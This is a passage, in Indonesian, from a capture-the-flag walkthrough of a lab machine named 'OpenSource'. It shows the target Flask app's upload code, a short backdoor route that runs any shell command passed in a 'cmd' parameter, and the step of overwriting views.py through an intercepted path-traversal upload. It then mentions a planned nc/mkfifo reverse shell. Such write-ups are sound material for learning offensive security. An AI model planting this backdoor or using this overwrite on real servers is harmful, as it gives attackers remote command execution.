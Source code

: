 ### Jika kita terus mencari di app/app/ ada file views.py yang menyimpan fungsi

```terminal
app/app ❯ cat views.py
import os
from app.utils import get_file_name
from flask import render_template, request, send_file
from app import app

@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')

@app.route('/uploads/')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))
```

### Memandu kami dengan fungsi-fungsi di atas, kami dapat mendefinisikan fungsi kami sendiri dan menambahkannya di akhir untuk kemudian mengunggahnya dan menjalankan perintah

```terminal
@app.route('/yupybackdoor')
def cmd():
    return os.system(request.args.get('cmd'))
```

### Kami mengunggahnya dari http://10.10.11.164/upload tetapi kami akan mencegat dengan burpsuite dan mengubah rute ke "/app/app/views.py" untuk menimpa yang sekarang di mesin dan tekan maju

![Gambar2](./img/OpenSource/2.png "Gambar2")

### Jika semuanya berjalan dengan baik, fungsinya harus berfungsi, maka kami akan membuat shell terbalik dengan nc mkfifo, urlencoding apa yang dapat menyebabkan masalah

